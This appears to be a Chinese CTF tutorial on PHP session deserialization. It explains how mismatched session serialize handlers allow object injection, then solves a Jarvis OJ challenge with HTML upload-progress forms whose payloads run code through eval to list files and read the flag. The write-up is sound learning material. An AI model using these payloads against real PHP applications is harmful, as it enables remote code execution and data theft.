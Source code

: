 ## session反序列化

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`username|s:4:"asdf";`(键名+竖线+经过`serialize()`函数序列处理的值)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`a:1:{s:8:"username";s:4:"asdf";}`(经过`serialize()`函数序列化处理的数组)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_binary');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

![](PHP_Session.png)

`usernames:4:"asdf";`(**键名的长度**对应的ASCII字符(BS的ASCII为8)+键名+经过`serialize()`函数序列化处理的值)

**当序列化的引擎和反序列化的引擎不一致时,就可以利用引擎之间的差异产生序列化注入漏洞**

[https://www.php.net/session_start/](https://www.php.net/session_start/)

>当会话自动开始或者通过session_start()手动开始的时候，PHP 内部会调用会话管理器的open和read回调函数。会话管理器可能是PHP默认的，也可能是扩展提供的（SQLite或者Memcached扩展），也可能是通过session_set_save_handler()设定的用户自定义会话管理器。通过read回调函数返回的现有会话数据（使用特殊的序列化格式存储），PHP 会**自动反序列化数据并且填充$_SESSION超级全局变量**。 

```php
<?php
    //1.php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//使用php_serialize引擎存储
    session_start();
    $_SESSION['username']=$_GET['user'];
    var_dump($_SESSION);
?>
```

```php
<?php
    //2.php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//使用php引擎存储
    session_start();
    class user{
        var $name;
        function __wakeup(){
            echo $this->name;
        }
    }
?>
```

对于`php_serialize`引擎来说`|`是一个普通字符,但对于`php`引擎来说`|`是键名与序列化值的分隔符,从而在解析的时候造成了歧义,导致其在解析Session文件时直接对`|`后的值进行反序列化处理

对`1.php`传入`?user=|O:4:"user":1:{s:4:"name";s:4:"asdf";}`此时的`sess`文件为`a:1:{s:8:"username";s:38:"|O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`

调用`2.php`,`php`引擎将`|`作为分隔符处理,前半部分`a:1:{s:8:"username";s:38:"`被`php`引擎作为Session的键值处理,后半部分`O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`被Session自动反序列化,从而调用2.php中的user类

---

可能存在无法直接对Session赋值的情况

[https://www.php.net/manual/zh/session.upload-progress.php](https://www.php.net/manual/zh/session.upload-progress.php)

> 当session.upload_progress.enabled的INI选项开启时，PHP能够在每一个文件上传时监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时**POST一个与INI中设置的session.upload_progress.name同名变量**时，上传进度可以在$_SESSION中获得。当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据,索引是session.upload_progress.prefix与session.upload_progress.name连接在一起的值。

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

|Directive|Local Value|Master Value|
|:---:|:---:|:---:|
|session.serialize_handler|**php**|**php_serialize**|
|session.upload_progress.cleanup|Off|Off|
|session.upload_progress.enabled|On|On|
|session.upload_progress.freq|1%|1%|
|session.upload_progress.min_freq|1|1|
|session.upload_progress.name|PHP_SESSION_UPLOAD_PROGRESS|PHP_SESSION_UPLOAD_PROGRESS|
|session.upload_progress.prefix|upload_progress_|upload_progress_|

引擎存在差异,存在反序列化漏洞,`session.upload_progress.enabled==On`,可以进行文件上传

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

随便提交一个文件得到`Array ( [0] => . [1] => .. [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php [3] => index.php [4] => phpinfo.php )`

![](PHP_Session_Upload1.png)

已知`DOCUMENT_ROOT`为`/opt/lampp/htdocs`,通过`file_get_contents`对flag进行读取

```php
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

![](PHP_Session_Upload2.png)
